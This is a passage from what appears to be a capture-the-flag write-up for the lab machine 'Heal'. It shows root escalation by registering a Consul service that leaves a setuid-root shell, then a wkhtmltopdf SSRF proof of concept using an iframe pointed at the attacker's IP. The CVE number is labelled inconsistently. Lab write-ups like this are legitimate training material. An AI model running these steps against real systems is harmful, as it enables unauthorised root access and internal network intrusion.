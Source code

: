 I’ll upload this using the API:

```

ron@heal:/dev/shm$ curl -X PUT http://127.0.0.1:8500/v1/agent/service/register -H "Content-Type: application/json" -d @0xdf.json 

```

After less than a minute, it’s there:

```

ron@heal:/dev/shm$ ls -l /tmp/0xdf
-rwsrwsrwx 1 root root 1396520 May 14 18:01 /tmp/0xdf

```

I’ll run it with `-p` to not drop privileges and get a shell as root:

```

ron@heal:/dev/shm$ /tmp/0xdf -p
0xdf-5.1#

```

And the root flag:

```

0xdf-5.1# cat root.txt
938ee85d************************

```

## Beyond Root - wkhtmltopdf SSRF

### CVE-2023-35583

#### Background

Any time something is parsing HTML into another format, there’s a risk for parsing issues, and server-side request forgery (SSRF) vulnerabilities.

[CVE-2023-35583](https://nvd.nist.gov/vuln/detail/CVE-2022-35583) is a vulnerability in the exact version of `wkhtmltopdf` used on Heal:

> wkhtmlTOpdf 0.12.6 is vulnerable to SSRF which allows an attacker to get initial access into the target’s system by injecting iframe tag with initial asset IP address on it’s source. This allows the attacker to takeover the whole infrastructure by accessing their internal assets.

#### Command Line POC

As root, I can run the `wkhtmltopdf` command myself to demonstrate the SSRF:

```

root@heal:~# echo '<iframe src="http://10.10.14.6">' | wkhtmltopdf - test.pdf 
QStandardPaths: XDG_RUNTIME_DIR not set, defaulting to '/tmp/runtime-root'
Loading page (1/2)
Printing pages (2/2)                                               
Done  

```

